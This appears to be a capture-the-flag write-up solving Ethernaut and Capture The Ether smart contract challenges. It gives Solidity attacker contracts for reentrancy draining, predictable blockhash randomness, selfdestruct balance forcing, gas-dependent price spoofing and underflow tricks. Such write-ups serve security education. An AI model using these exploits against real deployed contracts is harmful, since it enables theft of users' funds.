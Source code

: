 # Smart contract security

Series of educational challenges

## Ethernaut 

### CoinFlip

We deploy the following attacker contract and we call the attack function on a sequence of ten consecutive blocks. 

```
pragma solidity 0.8.15;

contract CoinFlipAttacker {
    uint256 private immutable FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack(address target) public {
        bool guess = calculateGuess();
        target.call(abi.encodeWithSignature("flip(bool)", guess));
    }

    function calculateGuess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }
}
```

Each time, the attack function will estimate the guess and send it to the CoinFlip contract

### Elevator

We deploy the following the following attacker contract and we call the attack function. 

```
pragma solidity 0.8.15;

import "../challenge/Elevator.sol";

contract ElevatorAttacker is Building {
    bool private set;
    
    function attack(address target) external {
        Elevator(target).goTo(0);
    }

    function isLastFloor(uint) external returns(bool) {
        bool setTop = set; 
        set = !set;
        return setTop;
    }
}
```

The isLastFloor() function will get called twice returning a different value in both cases

### Shop

We deploy the following the following attacker contract and we call the attack function. 

```
pragma solidity 0.8.15;

import "../challenge/Shop.sol";

contract ShopAttacker {
    uint256 private constant REQUIRE_PRICE = 100;
    uint256 private constant GAS_THRESHOLD = 28_096_381;

    function attack(address target) external {
        Shop(target).buy();
    }

    function price() external view returns (uint256) {
        uint256 gas = gasleft();
        if(gas >= GAS_THRESHOLD) {
            return 100;
        } else {
            return 0;
        }
    }
}
```

The price() function will get called twice returning a different price in both cases based on the gas left. The `GAS_THRESHOLD` was estimated based on the gas consumption of the call.

### Re-entrance

We deploy the following the following attacker contract and we call the attack function. 

```
pragma solidity 0.8.15;

contract ReentranceAttacker {
    function attack(address target) external payable {
        payable(target).call{value: msg.value}(abi.encodeWithSignature("donate(address)", address(this)));
        target.call(abi.encodeWithSignature("withdraw(uint256)", msg.value));
    }

    receive() external payable {
        if(msg.sender.balance > 0) {
            msg.sender.call(abi.encodeWithSignature("withdraw(uint256)", msg.value));
        }
    }
}
```

When the receive() function gets called, we can re-enter and withdraw funds before our balance gets updated

### Token

We can call transfer() with an amount of 21 and generate an underflow.

### Force

We deploy the following attacker contract and we call the attack function. 

```
pragma solidity 0.8.15;

contract ForceAttacker {
    constructor() payable {}

    function attack(address target) external {
        selfdestruct(payable(target));
    }
}
```

By calling selfDestuct(), we make the Force contract to update its balance even without a fallback or receive function

### Naught Coin

The lockdown only applies to transfer() and not to the transferFrom() function of the ERC20 standard. We can approve ourselves and use transferFrom() to move the tokens

## Capture The Ether

### Guess the random number challenge

Storage slots are not private, we can observe what was stored in the first slot and use that value as the answer

### Guess the secret number challenge

As a uint8 was used, we know the value used previous to hashing is between 0-255. We can iterate and hash each number until we match the hash `0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365`

### Guess the new number challenge

We deploy the following the following attacker contract and we call the attack function. 

```
pragma solidity 0.4.21;

import "../challenge/GuessTheNewNumberChallenge.sol";
contract GuessTheNewNumberChallengeAttacker {
    function attack(address target) public payable {
        uint8 answer = calculateGuess();
        GuessTheNewNumberChallenge(target).guess.value(1 ether)(answer);
    }

    function calculateGuess() private view returns (uint8) {
        return uint8(keccak256(block.blockhash(block.number - 1), now));
    }

    function () external payable {}
}
```

We use the same estimations as the GuessTheNewNumberChallenge contract to calculate the guess.
